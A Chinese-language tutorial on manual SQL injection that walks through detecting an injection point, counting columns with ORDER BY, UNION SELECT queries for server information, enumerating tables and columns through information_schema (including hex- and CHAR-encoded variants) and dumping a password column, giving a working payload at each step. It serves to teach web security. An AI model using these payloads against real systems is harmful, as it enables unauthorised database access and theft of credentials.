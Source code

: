 #SQL手工注入基础
```
Author:C0d3r1iu 有什么疑惑可以随时联系我
mail:admin@recorday.cn
```
***

[TOCM]

[TOC]

#标准手工注入流程
###1.探测注入点
####1.测试注入点是否存在

常用方法：

1.单引号探测

![](http://hitnslab.com:65503/news/media/upload/SQL1.png)


2.逻辑语句判断
这里分析语句可知，用单引号闭合前一个引号，后面执行我们的or语句

payload:`' or 1=1# `

这样就把所有信息显示出来了

![](http://hitnslab.com:65503/news/media/upload/SQL2.png)

如果是信息显示类注入点，还可以用and 1=1 和and 1=2 ，前者返回成功，后者返回失败来进行判断，这里不再赘述。

###2.探测注入点之后，收集信息

####1.union select 联合查询

在联合查询前，需要判断能显示字段的数量，用到order by 语句
这里作为演示，猜字段数的区间小一点，尽可能用二分法，凭感觉也可以
![](http://hitnslab.com:65503/news/media/upload/SQL3_aLS41LU.png)

![](http://hitnslab.com:65503/news/media/upload/SQL4_ge34s6s.png)
之后又试了 orderby3不报错，4报错
因此是3个字段

我们构造如下语句：
`' union select 1,2,3 #`

再次注入查看效果即可

![](http://hitnslab.com:65503/news/media/upload/SQL5.png)

那我们替换成
`' union select version(),now(),user()#`
之后呢？

![](http://hitnslab.com:65503/news/media/upload/SQL6.png)

没错，这样就可以查询，搜集信息
version()版本信息
database()数据库名
user()获取当前用户
@@ version_compile_os 操作系统信息

####2.查询information_schema

如果mysql版本大于5.0，可以对默认表进行读取进行更多信息的探索:
payload如下：
`'union select 1,table_name from  information_schema.tables #`

![](http://hitnslab.com:65503/news/media/upload/SQL7.png)

在爆出的众多表名中寻找需要利用的即可

![](http://hitnslab.com:65503/news/media/upload/SQL8.png)

或者爆指定数据库的表（hex转码）：

![](http://hitnslab.com:65503/news/media/upload/SQL9.png)
payload1如下：

`' union select 1,2,table_name from information_schema.tables where table_schema='inject`

payload2如下：
`' union select 1,2,table_name from information_schema.tables where table_schema=0x696E6A656374 #`

同理payload2如下：
`' union select 1,2,table_name from information_schema.tables where table_schema=CHAR(105,110,106,101,99,116)#';`

####3.读完表名读字段

把上一步的table换成column就可以了

payload：

`' union select 1,2,column_name from information_schema.columns where table_name='dbinfo`

####4.读取表内部具体内容

这里注意要带上库的名字，看程序具体怎么写

payload:

`' union select 1,2,password from inject.dbinfo#`

到了这里，一次完整的注入基本就完成了


